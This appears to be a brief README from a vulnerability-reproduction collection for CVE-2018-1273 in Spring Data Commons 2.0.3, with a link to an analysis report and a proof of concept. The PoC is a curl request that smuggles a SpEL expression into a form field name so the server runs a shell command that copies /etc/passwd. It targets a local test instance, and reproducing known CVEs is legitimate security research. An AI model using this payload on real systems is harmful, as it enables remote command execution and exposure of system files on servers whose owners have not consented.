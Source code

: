 ## CVE-2018-1273: RCE with Spring Data Commons

测试镜像

* src/spring-data-commons/2.0.3/

参考链接

* [【漏洞分析】CVE-2018-1273: RCE with Spring Data Commons 分析报告](http://blog.nsfocus.net/cve-2018-1273-analysis/)

Poc

```
curl http://127.0.0.1:8080/users --data 'username[T(java.lang.Runtime).getRuntime().exec("cp /etc/passwd /tmp")/abc]=123&password=123&repeatedPassword=123'
```

